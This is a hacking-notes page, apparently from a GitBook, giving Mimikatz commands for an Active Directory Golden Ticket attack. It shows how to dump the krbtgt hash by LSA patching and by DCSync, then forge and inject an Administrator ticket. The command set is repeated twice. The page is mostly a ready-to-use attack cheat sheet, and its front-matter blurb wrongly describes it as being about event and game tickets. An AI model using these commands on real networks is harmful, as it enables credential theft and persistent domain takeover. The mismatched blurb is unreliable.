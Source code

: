 ```yaml
---
description: >-
  Explore our thorough article about Golden tickets, unlocking the mysteries
  behind this sought-after treasure in events and games. Dive into the golden
  opportunity now!
---
```


# 🔥 Golden tickets

### **ump hashes - Get the krbtgt hash**

```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <computername>
```

### **Make golden ticket**

Use /ticket instead of /ptt to save the ticket to file instead of loading in current powershell process To get the SID use `Get-DomainSID` from powerview

{% code overflow="wrap" %}
```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /krbtgt:<hash> id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
{% endcode %}

### **Use the DCSync feature for getting krbtgt hash. Execute with DA privileges**

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\krbtgt"'
```

### **Check WMI Permission**

```
Get-wmiobject -Class win32_operatingsystem -ComputerName <computername>
```

### Read All information about Golden Tickets - Theory and Practice

<table data-card-size="large" data-view="cards" data-full-width="true"><thead><tr><th></th><th></th><th></th><th data-hidden data-card-target data-type="content-ref"></th><th data-hidden data-card-cover data-type="files"></th></tr></thead><tbody><tr><td>Commands: <a href="https://gitbook.ad-attacks.com/domain-persistence/golden-ticket">https://gitbook.ad-attacks.com/domain-persistence/golden-ticket</a></td><td></td><td></td><td><a href="https://gitbook.ad-attacks.com/domain-persistence/golden-ticket">https://gitbook.ad-attacks.com/domain-persistence/golden-ticket</a></td><td><a href="../.gitbook/assets/Golden Tickets.png">Golden Tickets.png</a></td></tr><tr><td>All About Active Directory Hacking</td><td><a href="https://ad-attacks.com/golden-ticket-attack-explained/">Golden Tickets Theory</a></td><td></td><td><a href="https://ad-attacks.com/">https://ad-attacks.com/</a></td><td><a href="../.gitbook/assets/Homepage.png">Homepage.png</a></td></tr></tbody></table>

#### Extract krbtgt hash using Mimikatz

To retrieve the krbtgt account hash which is essential for creating Golden Tickets, use the following command on a target machine with appropriate permissions:

```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <computername>
```

#### Generating a Golden Ticket

After obtaining the necessary krbtgt hash and domain SID, a Golden Ticket can be created. The command below will generate and automatically pass the ticket to the session:

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /krbtgt:<hash> id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

To save the ticket to a file instead of loading it into the current process, replace `/ptt` with `/ticket`.

#### Acquire krbtgt hash via DCSync

For users with Domain Administrator privileges, the krbtgt hash can also be obtained by simulating a Domain Controller synchronization process:

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\krbtgt"'
```

#### Verify WMI Permissions

To check the Windows Management Instrumentation (WMI) permissions on a specific computer, use the following PowerShell command:

```powershell
Get-wmiobject -Class win32_operatingsystem -ComputerName <computername>
```

#### Understanding Golden Tickets

Deepening your knowledge of Active Directory attacks, specifically Golden Tickets, is crucial. Study the theory and practice through the resource provided below:

* Active Directory Hacking Guide
* Golden Ticket Concepts
* Detailed Commands: [AD Attacks GitBook](https://gitbook.ad-attacks.com/domain-persistence/golden-ticket)

### Sources

{% embed url="https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets" %}
